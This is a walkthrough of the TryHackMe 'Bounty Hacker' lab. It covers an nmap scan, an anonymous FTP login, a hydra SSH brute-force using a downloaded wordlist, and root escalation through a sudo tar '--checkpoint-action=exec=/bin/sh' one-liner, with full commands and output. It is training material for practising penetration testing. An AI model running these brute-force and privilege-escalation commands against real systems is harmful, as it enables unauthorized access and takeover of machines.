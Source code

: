 ```yaml
---
title: THM Bounty Hacker Writup
categories:
  - TryHackMe
  - Writeup
tags:
  - THM
  - Try Hack Me
  - Walkthrough
  - Writeup
  - Bounty Hacker
---  
```


[Link to Room](https://tryhackme.com/room/cowboyhacker)  

Start off with an nmap scan:
`sudo nmap -A 10.10.144.76 -v`   
We got a hit for 3 ports:  
<!--end-->   
```
21/tcp    open   ftp             vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.1.118
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open   ssh             OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp    open   http            Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```  
We see from an NSE script that Anonymous FTP login is allowed, which is a common misconfiguration and an easy way to gain information. Lets login to see whats there:
```
$ ftp 10.10.144.76
Connected to 10.10.144.76.
220 (vsFTPd 3.0.3)
Name (10.10.144.76:yosef): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

We list the directory:
```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```
We found two txt files, lets get them and see whats there.
locks.txt appears to be a wordlist, so well keep that for when we find a username.
Turns out, the task.txt file gives us a username `lin`, so lets try to bruteforce SSH with what we have. Well use hydra for this one.  
`hydra -l lin -P locks.txt ssh://10.10.144.76 -t 4`  
The -t 4 flag only runs 4 tasks at once, since many SSH configurations wont allow more.
After a little bit we get the login:
`[22][ssh] host: 10.10.144.76   login: lin   password: <CENSORED>`  
Great, now lets try to SSH in ourselves.
```
$ ssh lin@10.10.144.76
The authenticity of host '10.10.144.76 (10.10.144.76)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.144.76' (ECDSA) to the list of known hosts.
lin@10.10.144.76's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$
```  
We're in. We can now get the user flag located in the users Desktop folder.  
  
First thing we should always run is `sudo -l` to check if the user can run anything as root (Or another user for that matter). It is the most common and easiest way to privesc.
we get:
```
$ sudo -l
[sudo] password for lin: 
  
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```  
We are allowed to run tar as root. tar is a file archiving binary; these are often very easy to exploit to get a root shell when we can run them as sudo or SUID/SGID.
We run:  
`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`  
What this is doing is running tar to create an archive from the files `/dev/null` and `/dev/null`, which are the same thing - a null device; basically means you can write anything to there and it would act as if it was written when its actually just deleted. The `--checkpoint-action=exec=/bin/sh` is saying that its wants to execute `/bin/sh` (A shell) on each chekpoint (we technically only need the first).  
Running this automatically gives us a root shell as excpected:
```
$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami 
root
```  


